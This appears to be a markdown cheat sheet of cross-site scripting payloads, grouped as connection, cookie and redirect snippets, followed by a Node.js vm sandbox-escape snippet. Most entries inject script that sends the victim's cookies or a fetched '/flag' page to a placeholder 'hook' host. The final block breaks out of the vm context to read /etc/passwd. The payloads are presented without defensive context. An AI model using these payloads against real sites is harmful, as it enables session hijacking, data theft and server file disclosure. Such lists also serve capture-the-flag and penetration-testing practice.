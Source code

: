 ### Open connection

- **GET**
  - `<script>fetch('http://hook')</script>`

- **POST**
  - `<script>fetch('http://hook',{method:'POST'})</script>`

- **Open and redirect**
  - `<script>fetch("https://localhost").then((response) => response.json()).then((data) => fetch("https://hook/?/=".concat(JSON.stringify(data)),{credentials:'include'}));</script>`

### Cookie

- **XmlHttpRequest**
  - `<script>var a=new XmlHttpRequest();a.open("GET","https://hook",true);a.withCredentials=true;a.send(null);</script>`

- **Element**
  - `<script>fetch('http://hook?a='+document.cookie);</script>`
  - `<script>var i=new Image;i.src="https://hook/?"+document.cookie;</script>`
  - `<script>var i=new Image();i.src="https://hook?cookie="+btoa(document.cookie);</script>`
  - `<img src=x onerror="javascript:document.location='https://hook?cookie='+document.cookie;">`
  - `<img src=x onerror="this.src='https://hook/?'+document.cookie;this.removeAttribute('onerror');">`
  - `"'&<></h1><script>fetch('/flag').then(r=>{r.text().then(t=>fetch('https://hook/?flag='+btoa(t),{'mode':'no-cors'}))})</script><h1></h1>`
  - `[asd]('autofocus onfocus='location.href="https://WEBHOOK/?c="+document.cookie')`
 
### Redirect

- **Window**
  - `<script>window.location.replace("https://hook");</script>`

### VM

```javascript
const vm = require('vm');
const result = vm.runInNewContext(`
  (function() {
    var c = 'constructor';
    var require = require=this[c][c]('return process')().mainModule.require;
    var fs = require('fs');
    return String(fs.readFileSync('/etc/passwd'));
  })()
`);

console.log(result);
```

